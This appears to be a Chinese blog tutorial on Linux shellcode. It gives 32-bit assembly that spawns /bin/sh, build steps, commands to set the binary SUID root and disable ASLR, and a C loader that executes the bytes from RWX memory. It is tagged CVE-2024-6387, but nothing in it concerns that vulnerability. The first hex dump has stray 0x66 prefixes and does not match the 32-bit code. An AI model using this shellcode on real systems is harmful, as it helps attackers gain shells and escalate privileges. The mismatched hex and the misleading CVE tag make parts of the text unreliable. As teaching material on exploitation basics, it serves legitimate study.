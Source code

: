 ```yaml
---
title: ShellCode
date: 2024-07-29 09:04:16
tags:
  - CVE
categories:
  - CVE
  - CVE-2024-6387
---
```

# ubuntu(16 32位)
# 概述

## 什么是shellcode

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode**机器码**，让电脑可以执行攻击者的任意指令。
## 汇编码与机器码

### 机器码

可以直接在CPU运行的代码，一般就是可以用二进制代码来展示。
### 汇编码

就是币机器码高级一点的语言，通过基本的语言实现操作系统的基础功能。
# shellcode代码

## 汇编代码(目标机32bit的ubuntu16)

```asm
section .text
section .text
    global _start

_start:
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    push eax
    push ebx
    mov ecx, esp
    xor edx, edx
    mov al, 0xb
    int 0x80
```

## 使用汇编码

### 1.上述代码保存为文件（shellcode.asm）

```shell
vim shellcode.asm
```

### 2.进行汇编

```shell
nasm -f elf32 shellcode.asm -o shellcode.o
```
### 3.进行链接

```shell
ld -m elf_i386 shellcode.o -o shellcode
```

### 4.**设置SUID位（可选）**    

以root权限执行
```shell
sudo chown root:root shellcode
sudo chmod u+s shellcode
```
### 5.**禁用ASLR（可选）**

```shell
sudo sysctl -w kernel.randomize_va_space=0
```

### 6.运行可执行文件

```shell
./shellcode
```

## 汇编代码转为机器码

### 编译为二进制文件

```shell
nasm -f bin shellcode.asm -o shellcode.bin
```
### 查看机器码并转为所需格式

```shell
xxd -p shellcode.bin | sed 's/\(..\)/\\x\1/g' | fold -w 48
```
## 16进制机器码

```shellcode
\x66\x31\xc0\x66\x50\x66\xbb\x2f\x2f\x73\x68\x66
\x53\x66\xbb\x2f\x62\x69\x6e\x66\x53\x66\x89\xe3
\x66\x50\x66\x53\x66\x89
\xe1\x66\x31\xd2\xb0\x0b\xcd\x80
```

## C语言使用机器码

### 代码
```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

// Shellcode
unsigned char shellcode[] = 
"\x31\xc0\x50\xbb\x2f\x2f\x73\x68\x53\xbb\x2f\x62\x69\x6e\x53\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";

int main() {
    // Print shellcode length
    printf("Shellcode Length: %ld\n", strlen(shellcode));

    // Allocate executable memory
    void *exec = mmap(0, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (exec == MAP_FAILED) {
        perror("mmap");
        return 1;
    }

    // Copy shellcode to allocated memory
    memcpy(exec, shellcode, sizeof(shellcode));

    // Execute shellcode
    void (*execute_shellcode)() = (void (*)())exec;
    execute_shellcode();

    // Cleanup
    munmap(exec, sizeof(shellcode));

    return 0;
}
```

### 编译
使用 `-z execstack` 编译选项来允许执行堆栈上的代码:
```shell
gcc -z execstack -o shellcode shellcode.c
```



## 执行结果

- 开启shell窗口。

